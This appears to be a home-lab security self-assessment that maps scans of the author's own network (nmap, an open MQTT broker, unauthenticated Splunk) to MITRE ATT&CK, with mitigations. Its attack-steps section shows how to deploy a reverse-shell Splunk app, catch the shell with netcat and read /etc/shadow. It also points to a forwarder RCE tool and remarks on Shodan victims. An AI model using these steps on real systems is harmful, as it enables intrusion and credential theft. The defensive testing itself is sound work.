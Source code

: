 # MITTRE ATTACK analysis

# Iteration 1
This first iteration is based on the status where there were some exposed services.

| Tactics	| Techniques | Sub-tech	| Attack details	| Results	| Mitigations	| Detection	| Issues | Future actions |
|---|---|---|---|---|---|---|---|---|
|Reconnaissance TA0043	| Active Scanning	T1595	| Scanning IP Blocks 0.001	| connected via a mobile phone to get an externl IP ping home.pires.xyz results the 2.80.44.128 sudo nmap -sV | IP is 2.80.44.128 sudo nmap -sV home.rpires.xyz DNS record for 2.80.44.128: bl19-44-128.dsl.telepac.pt PORT     STATE  SERVICE  VERSION 80/tcp   open   http     lighttpd 1.4.69  113/tcp  closed ident 443/tcp  closed https  1883/tcp open mqtt 8000/tcp open   ssl/http Splunkd httpd |	M1056        Pre-compromise  detect and block uncommon data flows| My temporary IP is 87.196.80.59, which can be found at a webservice such as https://whatismyipaddress.com/. Or via cli with: dig +short myip.opendns.com @resolver1.opendns.com 87.196.80.59  There are 2 alerts generated, but the scan is not detected.|	No detection of uncommon data flows. | Create rules to indentify and block port scans.|
|Reconnaissance TA0043	| Active Scanning T1595	| Vulnerability Scanning 0.002	| splunk: https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd Shodan does not find this server. mqtt: : mosquitto_sub -t ""#"" -h home.rpires.xyz 91 13 38.50| Above scan indentifies 3 open ports: 80, 1883 and 8000. Some analysis around the web raises some paths for an attack: - 80/lighttpd 1.4.69, no vulnerabilities found https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=lighttpd - 1883/mqtt, no vulnerabilities found. However a quick test confirms that mqtt is not secured. https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto - 8000/splunk: possibly unhautenticated, confirmed with accessing via a browser to https://home.rpires.xyz:8000/en-US/app/launcher/home. Authentication GUI is restricted to paid licenses. https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd | M1042        Disable or Remove Feature or Program M1056        Pre-compromise activate authentication on splunk activate authentiction and encryption in mqtt service |	DS0029        Network Traffic not detected |	mqtt data is not encrypted neither the data sources are vetted, hence an adversary can listen and inject data. Splunk server may be compromised by a malicious actor by analyzing the logs and installing apps. One specific app may provide reverse shell | enable authentication on splunk enable authentiction and encryption in mqtt service |
|Reconnaissance TA0043	|Active Scanning T1595	|Wordlist Scanning 0.003	|dirbuster and zap scanning	|no major issues raised	|detect and block uncommon data flows such as scans or crawlers M1042        Disable or Remove Feature or Program M1056        Pre-compromise| DS0029        Network Traffic not detected |	none |updated ssh password and pihole password which were simple old passwords, collected in past breaches, confirmed in https://haveibeenpwned.com/|
|Initial Access TA0001	|Exploit Public-Facing Application	|n/a	|userless login to splunk server, then upload a malicious app as described in https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto	|root access to the splunk server machine	|The Spluk server can be protected by updating to the licensed version and thus: M1026        Privileged Account Management M1051        Update Software As last resort, put it in a DMZ: M1030        Network Segmentation Other mitigation is to use a reverse proxy: M1050        Exploit Protection |DS0015        Application Log, not detected DS0029        Network Traffic, not detected| root access to the splunk server machine	|track splunk application log, create reverse proxy access, consider licensing splunk, consider other FOSS tool|

After this initial access, the whole network is at stake, as the adversaty could:
* Persistance TA0003/T1098	Account Manipulation, create a new ssh account
* Lateral Movement TA0008/, all local machines and services could be compromised
  
## Attack steps and demo
* Guide: https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
* Code: https://github.com/0xjpuff/reverse_shell_splunk  
Step 1: git clone https://github.com/0xjpuff/reverse_shell_splunk  
Step 2: edit the attacker IP (own IP) and specicy a new port  
Step 3: tar and then rename to be packaged as a splunk app  
Step 4: deploy in the target splunk, and then reboot  

![pic](splunk_install_app.png)

Step 5: listen in your computer with:  
sudo nc -nlvp "2224"  
[sudo] password for rpires:   
Listening on 0.0.0.0 2224  
Connection received on 192.168.1.65 57714  
┌──(root💀kali)-[/]  
└─# cat /etc/shadow  
cat /etc/shadow  
root:!:18764:0:99999:7:::  
....  
user:$y$j9T$6Yi8mmJLaFPUnsIb/EUE31$9iJbm1a7TR/8SPry4ilRUqf5dQqcw1mDJlbdjRSGwsC:18764:0:99999:7:::  
splunk:!:19615:0:99999:7:::  
splunkfwd:!:19711:0:99999:7:::  

## Other attack
You can do RCE using the forwarder.
Exploit Overview: An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.  
Explained here https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence and code here https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
Haven't tried this yet, however there are may potential victims available in Shodam.

## Mitigations done
### Improved homepage
The homepage was outdated following a previous crash of raspberryPi.
Check it out at http://home.rpires.xyz

### Hide splunk behind a reverse proxy
...  
Try it at https://home.rpires.xyz:8000

### Monitored splunk log
Added a new dashboard for splunk access logs.
Couldn't find the log files, that should be stored in /var/log/splunk/.


## Future mitigations
* Replace Splunk with a FOSS.
* move the webpage to https/443
* add authentication and encryption to MQTT. Need to assess if the ESPs can support
* track spluk users logs in splunk
  
# **Iteration 2**
This iteration is based on the status where the splunk server is protected with a reverse proxy and further detections were added to Splunk.

